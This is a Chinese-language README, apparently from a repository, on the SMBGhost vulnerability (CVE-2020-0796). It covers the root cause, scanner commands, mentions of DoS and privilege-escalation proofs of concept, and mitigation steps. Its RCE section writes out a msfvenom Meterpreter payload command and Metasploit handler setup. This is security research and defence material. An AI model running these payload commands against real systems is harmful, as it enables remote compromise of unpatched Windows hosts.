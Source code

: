 # SMBGhost

## 原理

漏洞发生在srv2.sys中,由于SMB没有正确处理压缩的数据包,在解压数据包的时候使用客户端传过来的长度进行解压时,并没有检查长度是否合法.最终导致整数溢出。

SMB运行在TCP端口445上，它是一种被广泛利用的网络协议，支持文件共享、网络浏览、打印服务和网络进程间的通信。

## Usage

	python3 scanner.py <IP>

OR

	nmap --script CVE-2020-0796.nse <IP>


CVE-2020-0796-Blue screen.rar 为 SMBGhost Ddos win10蓝屏的python代码。

解压后需要
	
	pip install ntlm-auth
	
	pip -r install requirements-test.txt


## LPE

用 ```winver```命令查看windows版本号，经测试，打过 kb4551762 补丁后，2个poc仍然测试存在漏洞，poc是不准确的。

用 CVE-2020-0796-master.zip 测试，VS编译，卸载补丁包后，成功本地提权。

![](2.PNG)

原理为 直接shellcode注入，注入winlogon.exe进程

## RPE (20200602)

https://github.com/chompie1337/SMBGhost_RCE_PoC

制作payload:

	msfvenom -p windows/x64/meterpreter/bind_tcp lhost=192.168.255.153 lport=4444 -f py -o payload.py

msfconsole

use exploit/multi/handler

set payload windows/x64/meterpreter/bind_tcp

## 影响版本

影响到Windows 10的1903和1909版本，以及Windows Server的1903和1909版本。

![](1.jpg)


## 修复方式

1.[微软补丁](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0796)


2.使用以下PowerShell命令禁用SMBv3服务的压缩（无需重新启动）

```
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" DisableCompression -Type DWORD -Value 1 -Force
```

3.还可以通过禁止SMB的流量流向外网来防御攻击

## 参考资料

[360 核心安全技术团队的原理分析](http://blogs.360.cn/post/CVE-2020-0796.html)

[powershell 检测](https://mp.weixin.qq.com/s?__biz=MzI2OTMzNjg4OQ==&mid=2247485291&idx=1&sn=462ca6f249ead1be35609977e1b2fbe3&chksm=eae0af3ddd97262bbfa000221fd93d53aa931fca2a0cf8bbd6a56c25e66296dbb33c89a1a2dd&mpshare=1&scene=1&srcid=&sharer_sharetime=1584063318697&sharer_shareid=5a0049ad005b04d2683ee755107dbbd6#rd)


[微软smb协议文件](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-smb2/1d435f21-9a21-4f4c-828e-624a176cf2a0)